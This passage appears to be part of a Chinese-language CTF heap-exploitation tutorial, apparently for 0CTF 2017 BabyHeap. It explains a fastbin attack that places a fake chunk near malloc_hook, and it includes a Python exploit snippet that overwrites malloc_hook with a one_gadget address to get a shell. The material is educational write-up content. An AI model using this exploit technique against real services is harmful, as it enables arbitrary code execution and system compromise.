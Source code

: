 #### 分配chunk到malloc_hook附近

由于 malloc hook 附近的 chunk 大小为 0x7f，所以数据区域为0x60。这里我们再次申请的时候，对应 fastbin 链表中没有相应大小chunk，所以根据堆分配器规则，它会依次处理unsorted bin中的chunk，将其放入到对应的bin中，之后会再次尝试分配 chunk，因为之前释放的 chunk 比当前申请的 chunk 大，所以可以从其前面分割出来一块。所以 idx2 仍然指向该位置，那么我们可以使用类似的办法先释放申请到的chunk，然后再次修改 fd 指针为 fake chunk 即可。此后我们修改 malloc_hook 处的指针即可得到触发 onegadget。

```Python
# 2. malloc to malloc_hook nearby
# allocate a 0x70 size chunk same with malloc hook nearby chunk, idx4
allocate(0x60)
free(4)
# edit idx4's fd point to fake chunk
fake_chunk_addr = main_arena - 0x33
fake_chunk = p64(fake_chunk_addr)
fill(2, len(fake_chunk), fake_chunk)

allocate(0x60)  # idx 4
allocate(0x60)  # idx 6

one_gadget_addr = libc_base + 0x4526a
payload = 0x13 * 'a' + p64(one_gadget_addr)
fill(6, len(payload), payload)
# trigger malloc_hook
allocate(0x100)
p.interactive() 
```
同时，这里的 onegadget 地址也可能需要尝试多次。

## 参考文献

- https://www.gulshansingh.com/posts/9447-ctf-2015-search-engine-writeup/
- http://uaf.io/exploitation/2017/03/19/0ctf-Quals-2017-BabyHeap2017.html